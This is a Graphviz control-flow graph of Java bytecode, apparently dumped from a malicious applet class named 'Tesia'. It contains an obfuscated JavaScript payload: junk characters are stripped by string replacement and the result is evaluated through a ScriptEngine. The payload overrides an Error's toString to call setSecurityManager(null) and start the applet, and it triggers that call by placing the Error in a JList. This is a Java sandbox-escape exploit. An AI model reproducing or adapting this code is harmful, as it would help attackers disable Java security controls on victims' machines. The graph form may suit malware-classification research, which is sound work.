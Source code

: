 digraph "" {
    "r0 := @this: Tesia"
    "new java.lang.String"
    "r0 := @this: Tesia"->"new java.lang.String";
    "dup1.r"
    "new java.lang.String"->"dup1.r";
    "specialinvoke <java.lang.String: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.String: void <init>()>";
    "store.r r20"
    "specialinvoke <java.lang.String: void <init>()>"->"store.r r20";
    "new Men"
    "store.r r20"->"new Men";
    "store.r $r3"
    "new Men"->"store.r $r3";
    "load.r $r3"
    "store.r $r3"->"load.r $r3";
    "specialinvoke <Men: void <init>()>"
    "load.r $r3"->"specialinvoke <Men: void <init>()>";
    "specialinvoke <Men: void <init>()>"->"load.r $r3";
    "fieldget <Men: javax.script.ScriptEngine kkswwop>"
    "load.r $r3"->"fieldget <Men: javax.script.ScriptEngine kkswwop>";
    "push \"viuygfhsar eriuygfhsroiuygfhsr = neiuygfhsw Eriuygfhsroiuygfhsr(\\\"iuygfhsy eriuygfhsroiuygfhsr\\\");thiuygfhsis.toiuygfhsStriuygfhsiniuygfhsg = fuiuygfhsnciuygfhstion(){ jaiuygfhsva.laiuygfhsng.Syiuygfhssteiuygfhsm.seiuygfhstSeiuygfhscuriuygfhsityManaiuygfhsger(nuiuygfhsll);appiuygfhslet.stiuygfhsariuygfhst();reiuygfhstuiuygfhsrn \\\"exiuygfhsploiuygfhsit!\\\";};eriuygfhsriuygfhsor.messiuygfhsagiuygfhse = thiiuygfhss;\""
    "fieldget <Men: javax.script.ScriptEngine kkswwop>"->"push \"viuygfhsar eriuygfhsroiuygfhsr = neiuygfhsw Eriuygfhsroiuygfhsr(\\\"iuygfhsy eriuygfhsroiuygfhsr\\\");thiuygfhsis.toiuygfhsStriuygfhsiniuygfhsg = fuiuygfhsnciuygfhstion(){ jaiuygfhsva.laiuygfhsng.Syiuygfhssteiuygfhsm.seiuygfhstSeiuygfhscuriuygfhsityManaiuygfhsger(nuiuygfhsll);appiuygfhslet.stiuygfhsariuygfhst();reiuygfhstuiuygfhsrn \\\"exiuygfhsploiuygfhsit!\\\";};eriuygfhsriuygfhsor.messiuygfhsagiuygfhse = thiiuygfhss;\"";
    "push \"iuygfhs\""
    "push \"viuygfhsar eriuygfhsroiuygfhsr = neiuygfhsw Eriuygfhsroiuygfhsr(\\\"iuygfhsy eriuygfhsroiuygfhsr\\\");thiuygfhsis.toiuygfhsStriuygfhsiniuygfhsg = fuiuygfhsnciuygfhstion(){ jaiuygfhsva.laiuygfhsng.Syiuygfhssteiuygfhsm.seiuygfhstSeiuygfhscuriuygfhsityManaiuygfhsger(nuiuygfhsll);appiuygfhslet.stiuygfhsariuygfhst();reiuygfhstuiuygfhsrn \\\"exiuygfhsploiuygfhsit!\\\";};eriuygfhsriuygfhsor.messiuygfhsagiuygfhse = thiiuygfhss;\""->"push \"iuygfhs\"";
    "push \"\""
    "push \"iuygfhs\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1";
    "pop"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"->"pop";
    "load.r r0"
    "pop"->"load.r r0";
    "new javax.swing.JList"
    "load.r r0"->"new javax.swing.JList";
    "new javax.swing.JList"->"dup1.r";
    "push 1"
    "dup1.r"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "push 0"
    "dup1.r"->"push 0";
    "push 0"->"load.r $r3";
    "load.r $r3"->"fieldget <Men: javax.script.ScriptEngine kkswwop>";
    "push \"eriuygfhsroiuygfhsr\""
    "fieldget <Men: javax.script.ScriptEngine kkswwop>"->"push \"eriuygfhsroiuygfhsr\"";
    "push \"eriuygfhsroiuygfhsr\""->"push \"iuygfhs\"";
    "push \"iuygfhs\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1";
    "arraywrite.r"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1"->"arraywrite.r";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"
    "arraywrite.r"->"specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>";
    "fieldput <Tesia: javax.swing.JList piydsw>"
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"->"fieldput <Tesia: javax.swing.JList piydsw>";
    "fieldput <Tesia: javax.swing.JList piydsw>"->"push 0";
    "store.i $r3"
    "push 0"->"store.i $r3";
    "load.i $r3"
    "store.i $r3"->"load.i $r3";
    "load.i $r3"->"push 1";
    "ifcmpge.i load.r r0"
    "push 1"->"ifcmpge.i load.r r0";
    "new java.lang.StringBuilder"
    "ifcmpge.i load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "load.r r20"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r20";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "load.r r20"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r20";
    "inc.i $r3 1"
    "store.r r20"->"inc.i $r3 1";
    "goto load.i $r3"
    "inc.i $r3 1"->"goto load.i $r3";
    "store.r r0"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r0";
    "return"
    "store.r r0"->"return";
    "ifcmpge.i load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <Tesia: javax.swing.JList piydsw>"
    "load.r r0"->"fieldget <Tesia: javax.swing.JList piydsw>";
    "virtualinvoke <Tesia: java.awt.Component add(java.awt.Component)>"
    "fieldget <Tesia: javax.swing.JList piydsw>"->"virtualinvoke <Tesia: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <Tesia: java.awt.Component add(java.awt.Component)>"->"pop";
    "goto return"
    "pop"->"goto return";
}
